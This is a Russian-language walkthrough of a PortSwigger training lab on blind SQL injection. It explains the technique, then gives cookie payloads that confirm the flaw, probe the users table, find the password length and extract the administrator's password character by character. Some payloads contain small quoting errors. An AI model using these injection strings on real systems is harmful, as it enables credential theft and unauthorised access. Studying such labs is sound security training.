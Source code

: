 # Blind SQL injection with conditional responses

## Theory

<h3>Использование слепой инъекции SQL путем использования условных ответов</h3>

Рассмотрим приложение, которое использует отслеживающие файлы cookie для сбора аналитики об использовании. Запросы к приложению включают такой заголовок cookie:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

Когда запрос, содержащий TrackingId cookie, обрабатывается, приложение определяет, является ли пользовать известным, с помощью SQL-запроса, подобного этому:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Этот запрос уязвим для внедрения SQL иньекции, но результаты запроса не возвращаются пользователю. Однако приложение ведет себя по-разному в зависимости от того, возвращает ли запрос какие-либо данные. Если он возвращает данные (поскольку был отправлен распознанный TrackingId), то на странице отображается сообщение «Welcome back».

Этого поведения достаточно, чтобы иметь возможность использовать уязвимость слепой инъекции SQL и извлекать информацию, вызывая различные ответы, в зависимости от введенного условия. Чтобы увидеть, как это работает, предположим, что два запроса отправлены по очереди, и содержат следующие значения TrackingId cookie:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Первое из этих значений приведет к тому, что запрос вернет результаты, поскольку введенное условие **AND '1'='1** истинно, и поэтому будет отображаться сообщение «Welcome back». Второе значение приведет к тому, что запрос не вернет никаких результатов, поскольку введенное условие является ложным, и поэтому сообщение «Welcome back» не будет отображаться. Это позволяет нам определить ответ на любое введенное условие и, таким образом, извлекать данные по одному биту за раз.

Например, предположим, что есть таблица **Users** со столбцами **Username** и **Password** и пользователь с именем «Administrator». Мы можем определять пароль для этого пользователя, отправляя серию входных данных для проверки пароля по одному символу за раз.

Для этого начнем со следующего запроса:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Этот запрос возвращает сообщение «Welcome back», указывающее, что введенное условие истинно, и поэтому первый символ пароля больше, чем m.

Далее мы отправляем следующий запрос:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

Этот запрос не возвращает сообщение «Welcome back», значит введенное условие ложно, поэтому первый символ пароля меньше t.

Теперь мы отправляем следующий запрос, который возвращает сообщение «Welcome back», тем самым подтверждая, что первый символ пароля — s:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/1.png)

Выбираем пункт Lifestyle. Отправим запрос, чтобы удостовериться, что страница уязвима к SQL-иньекции, и что страница возвращает сообщение «Welcome back».
```
0zI'+AND+1=1--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/2.png)

Проверим, существует ли таблица Users:
```
0zI'+AND+(SELECT+'x'+FROM+users+LIMIT+1)='x'--;
```

* Оператор SQL LIMIT позволяет вывести указанное число строк из таблицы

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/3.png)

Убедимся, что в таблице Users есть пользователь с именем Administrator:
```
0zI'+AND+(SELECT+username+FROM+users+WHERE+username='administrator)='administrator'--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/4.png)

Следующим шагом является определение количества символов в пароле пользователя Administrator. Изменяя число LENGTH(password)>**1** узнаем, что длина пароля равна 20 символам.
```
0zI'+AND+(SELECT+username+FROM+users+WHERE+username='administrator+AND+LENGTH(password)>1)='administrator'--;
```

* Функция LENGTH используется для подсчета количества символов в строках

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/5.png)

После определения длины пароля следующим шагом будет проверка символа в каждой позиции, чтобы определить его значение. Отправляем запрос в Burp Intruder и заключаем нужные нам значения для перебора в специальные символы. В фильтре выбираем поиск по слову. Получаем пароль.
```
0zI'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='a--;
```

* Функция SUBSTRING вырезает и возвращает заданное количество символов из строки. Первым параметром функция принимает поле или строку, вторым параметром - с какой позиции начинать вырезания (нумерация символов начинается с 1), третьем параметром - сколько символов брать. Третий параметр не является обязательным. Если он не указан, текст будет вырезан с указанной позиции и до конца строки.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/6.png)

Логинимся под администратора и получаем ответ от приложения

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/7.png)
